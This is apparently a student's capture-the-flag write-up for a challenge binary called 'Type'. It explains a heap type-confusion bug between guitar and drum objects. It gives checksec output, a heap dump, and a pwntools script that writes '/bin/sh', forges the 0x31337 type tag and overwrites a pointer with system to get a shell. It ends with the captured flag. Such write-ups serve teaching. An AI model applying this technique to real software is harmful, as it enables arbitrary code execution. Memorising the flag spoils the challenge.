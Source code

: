 # Type:Solution

The binary is compiled with NX, a stack canary, and Full RELRO
```
checksec ./chal.bin
[*] '/root/workspace/vuln/type/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There is not win function in this binary, so we have to find a way to get a shell. The binary has a system call, so we can use that. The problem is that /bin/sh isn't in the binary so we'll have to write it to memory. We'll have to write it to the heap because there's a canary, and no way to leak the canary.

Using binja we can see that the space used for the guitar is 16, and the space used for the drum is 32. The difference in size combined with the fact that they are both using the same input for either option makes it possible to use type confusion to exploit the binary.
```
0x406290    0x0000000000000000    0x0000000000000031    ........1.......
0x4062a0    0x0000726174697567    0x0000000000000000    guitar..........
0x4062b0    0x0000000000031337    0x0000000000401600    7.........@.....
0x4062c0    0x0000000000000000    0x0000000000000041    ........A.......
0x4062d0    0x000000006d757264    0x0000000000000000    drum............
```

Using this we can borrow a drum and use it to store values and then mimic the guitar. The display_guitar function checks to see if it's a guitar using the value 31337. 
```
00401a91  if ((((sx.q(var_30) << 3) + &instruments) + 0x10) != 0x31337)
```

So in order to exploit this, we have to borrow a drum and then name it. In the name we have to first write /bin/sh because it ends in null and will stop anything after it from executing. We pad 8 to fill the memory space. Then we artificially make it a guitar with 0x31337. Then we add the call to system and send the chain. 
```
# read until end of menu
p.recvuntil(b'>>> ')

# select drums
p.sendline(b'2')

# read until end of menu
p.recvuntil(b'>>> ')

# name the drums
p.sendline(b'3')

# select instrument 0
p.sendline(b'0')

# write /bin/sh
chain = b'/bin/sh\0'

chain += b'A' * 8

# make it guitar
chain += p64(0x31337)

# call system
chain += p64(e.sym['system'])

p.sendline(chain)
```

After this we have to display the name of the instrument we borrowed which was number 0. This will then give us a shell and we can cat the flag!
```
flag{D4z3d_and_confus3D_4_s0_l0Ng}
```

Resources:
* Class Slides
* Louie
* Ash
